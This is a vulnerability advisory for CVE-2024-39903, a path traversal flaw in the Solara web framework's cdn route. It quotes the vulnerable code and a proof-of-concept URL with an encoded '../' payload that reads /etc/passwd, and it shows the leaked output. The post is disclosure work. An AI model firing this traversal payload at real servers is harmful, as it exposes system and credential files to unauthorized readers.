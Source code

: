 ```yaml
---
layout: post
title:  "CVE-2024-39903: Local File Inclusion in Solara"
date:  2024-07-09 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> CVE-2024-39903: Local File Inclusion in Solara

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 1.34.1


### Summary

A local file inclusion is present in the Solara when requesting resource files under the `/{cdn_helper.cdn_url_path}/<path:path>` route.

### Details

The endpoint [cdn](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/flask.py#L215) is used to load resource file from cdn. However when resource file is cached, it will load files from local file system directly. 

The [`cdn` endpoint](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/flask.py#L215):

```
@blueprint.route(f"/{cdn_helper.cdn_url_path}/<path:path>")
def cdn(path):
    if not allowed():
        abort(401)
    cache_directory = settings.assets.proxy_cache_dir
    content = cdn_helper.get_data(Path(cache_directory), path)
    mime = mimetypes.guess_type(path)
    return flask.Response(content, mimetype=mime[0])
```

The [`get_data`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L38) calls [`get_from_cache`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L24) to lookup cached files, it  concatenates `path` into `base_cache_dir` to get cached path directly and load the content afterwards. The `path` comes from the `<path:path>` part of `cdn` route. In this case, when path is `..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`, attacks can use path traversal to read any files in local file system.

The function [`get_data`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L38) and [`get_from_cache`](https://github.com/widgetti/solara/blob/b69c5e06068038291025badce652824a7962bc8b/solara/server/cdn_helper.py#L24)

```
def get_data(base_cache_dir: pathlib.Path, path):
    parts = path.replace("\\", "/").split("/")
    store_path = path if len(parts) != 1 else pathlib.Path(path) / "__main.js"

    content = get_from_cache(base_cache_dir, store_path)
    if content:
        return content

    url = get_cdn_url(path)
    response = requests.get(url)
    if response.ok:
        put_in_cache(base_cache_dir, store_path, response.content)
        return response.content
    else:
        logger.warning("Could not load URL: %r", url)
        raise Exception(f"Could not load URL: {url}")

def get_from_cache(base_cache_dir: pathlib.Path, path):
    cache_path = base_cache_dir / path
    try:
        logger.info("Opening cache file: %s", cache_path)
        return cache_path.read_bytes()
    except FileNotFoundError:
        pass
```

### PoC

1. Install Solara:

    ```
    pip install solara
    ```
2. Create `sol.py` following [official docs](https://github.com/widgetti/solara/tree/master?tab=readme-ov-file#first-script):
    ```
     import solara

    # Declare reactive variables at the top level. Components using these variables
    # will be re-executed when their values change.
    sentence = solara.reactive("Solara makes our team more productive.")
    word_limit = solara.reactive(10)


    @solara.component
    def Page():
        # Calculate word_count within the component to ensure re-execution when reactive variables change.
        word_count = len(sentence.value.split())

        solara.SliderInt("Word limit", value=word_limit, min=2, max=20)
        solara.InputText(label="Your sentence", value=sentence, continuous_update=True)

        # Display messages based on the current word count and word limit.
        if word_count >= int(word_limit.value):
            solara.Error(f"With {word_count} words, you passed the word limit of {word_limit.value}.")
        elif word_count >= int(0.8 * word_limit.value):
            solara.Warning(f"With {word_count} words, you are close to the word limit of {word_limit.value}.")
        else:
            solara.Success("Great short writing!")


    # The following line is required only when running the code in a Jupyter notebook:
    Page()
    ```
3. Start the solara server.

    ```
    solara run sol.py
    > Solara server is starting at http://localhost:8765
    ```

4. Open the url: `http://127.0.0.1:8765/_solara/cdn/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`, the output is the contents of the `/etc/passwd` file:

    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    ...
    ```

    ![poc](/assets/cve/solara.png)

### Impact

Any file on the backend filesystem can be read by an attacker with access to the solara server directly(If reverse proxy server such as nginx is used, the path parameter will be blocked).

## Reference

[https://github.com/widgetti/solara/security/advisories/GHSA-9794-pc4r-438w](https://github.com/widgetti/solara/security/advisories/GHSA-9794-pc4r-438w)